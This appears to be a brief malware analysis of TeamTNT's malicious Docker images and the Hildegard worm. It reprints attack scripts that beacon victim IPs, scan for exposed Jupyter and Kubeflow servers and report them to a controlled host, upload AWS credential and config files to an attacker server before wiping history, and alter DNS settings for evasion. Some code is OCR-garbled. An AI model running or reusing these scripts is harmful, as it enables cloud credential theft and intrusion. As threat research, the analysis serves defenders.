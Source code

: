 # TeamTNT

## Features

1. When constructing a malicious Docker image, TNTfeatB0rg will be used to steal AWS credentials. Part of the malicious software code is embedded into the system function call through Base64 encoding.

2. Also used in Docker image https://iplogger.org/ Web service to record the IP address of the victim's host, and then record it through the self-hosted address.

```bash
#!/bin/bash
curl -Lk https://iplogger.org/[Personal address] -o /dev/null
sleep 3
curl -Lk https://IP//SATW/ip.php -o /dev/null

```

This Docker image also contains a tornado.sh script, which uses Masscan and Zgarb tools to detect the target IP address range and the provided port. If it matches"Home Page - Select or create a notebook"、"Kubeflow Central Dashboard"、"Jupyter Lab"、"JupyterLab"Keyword will filter out its matching IP address information through jq, and then send it to the controlled host.

```bash
rndstr=$(head /dev/urandom | tr -dc a-z | head -c 6 ; echo '')
//Add the matching IP address to the rndstr array
if [ "$T_PORT" =  "8888" ]; then
eval "$rndstr"="'$(masscan $T_RANGE -p$T_PORT --rate=$S_RATE | awk '{print $6}' | zgrab --senders 200 --port $T_PORT --http='/tree' --output-file=- 2>/dev/null | grep -E "Home Page - Select or create a notebook/Kubeflow Central Dashboard|Jupyter Lab|JupyterLab' l jg-r .ip)'"
//Send request to web address /tree path
else
eval "$rndstr"="'$(masscan $T_RANGE -p$T_PORT --rate=$S_RATE | awk '{print $6}' | zgrab --senders 200 --port $T_PORT --http='/' --output-file=- 2>/dev/null | grep -E "Home Page - Select or create a notebook/Kubeflow Central Dashboard|Jupyter Lab|JupyterLab' l jg-r .ip)'"
//Send a request to the web root path
fi

for IP_ADDR in ${!rndstr}
do

if [ "$T_PORT" = "443" ]; then
TARGET="https://"$IP_ADDR
else
TARGET="http://"$IP_ADDR:$T_PORT
fi
echo '##################################################'
curl -sLk http://IP/SATW/res.php?vuln=$TARGET -o /dev/null
//Send data to controllable host
echo $TARGET
done;
}
```

3. The worm will steal AWS's credential file through several lines of code ~/.aws/credentials and configuration file ~/.aws/config.

```bash
if [ -f /root/.aws/credentials ]; then
echo "FOUND : /root/.aws/credentials"
curl -F "userfile=@/root/.aws/credentials" http://domain/thx/for/your/key/index.php
//Send AWS credentials to the attacker's server
curl -F "userfile=@/root/.aws/config" http://domain/thx/for/your/key/index.php
//Send AWS configuration file to attacker server
history -c
fi

if [ -f /home/*/.aws/credentials ]; then
echo "FOUND : /home/*/.aws/credentials"
curl -F "userfile=@/home/jovyan/.aws/credentials" http://domain/thx/for/your/key/index.php
curl -F "userfile=@/home/jovyan/.aws/config" http://domain/thx/forlyour/key/index.php
history -c
fi

rm -f $0
```

4. Hildegard malware uses the IRC proxy built by the open source project Ziggystartux, and then modifies the system DNS resolution to Google's DNS server to avoid being detected by the DNS monitoring tool.

```bash
cat /etc/resolv.conf 2>/dev/null | grep 'nameserver 8.8.4.4' 2>/dev/null 1>/dev/null || echo 'nameserver 8.8.4.4' >> /etc/resolv.conf
//Modify DNS resolution to 8.8.4.4
cat /etc/resolv.conf 2>/dev/null | grep 'nameserver 8.8.8.8' 2>/dev/null 1>/dev/null || echo 'nameserver 8.8.8.8' >> /etc/resolv.conf
//Modify DNS resolution to 8.8.8.8
```
